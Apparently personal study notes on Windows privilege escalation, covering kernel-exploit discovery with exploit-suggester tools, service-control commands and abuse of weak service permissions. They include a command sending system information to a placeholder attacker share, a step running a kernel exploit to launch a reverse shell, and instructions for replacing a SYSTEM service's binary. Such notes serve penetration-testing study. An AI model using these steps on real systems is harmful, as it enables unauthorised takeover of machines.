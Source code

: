 # kernel exploits
systeminfo -> use tools/google results
eg with windows7:
```
*windows - save systeminfo output and redirect to local machine*
> systeminfo > \\my.ip.here\directory\systeminfo.txt
```
*local machine - run windows exploit suggester*
```
# python3 wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits only | less
```
cross reference output with known binaries (eg grep for CVE and search secwiki link below for list)

if match is found simply DL precompiled binary, setup listener, run binary against reverse shell (any program can be specified )
```
> .\cve-whatever.exe C:\reverse.exe
```
### tools
windows exploit suggester
https://github.com/bitsadmin/wesng

precompiled kernel exploits
https://github.com/SecWiki/windows-kernel-exploits

watson (for more recent version of windows)
https://github.com/rasta-mouse/Watson

# service exploits
#### service command cheat sheet
query config of service
```
> sc.exe qc <name>
```
query current status of service
```
> sc.exe query <name>
```
modify config option of a service
```
> sc.exe config <name> <option>= <value>
```
start/stop service
```
> net start/stop <name>
```
#### insecure service permissions
if user has permission to change config of a service which runs with SYSTEM privileges that user can change the executable the service uses to one of our own.

**potential rabbit hole** if user can change service but cannot start/stop the service it may be unable to escalate privileges (it may be possible to restart machine to restart services)
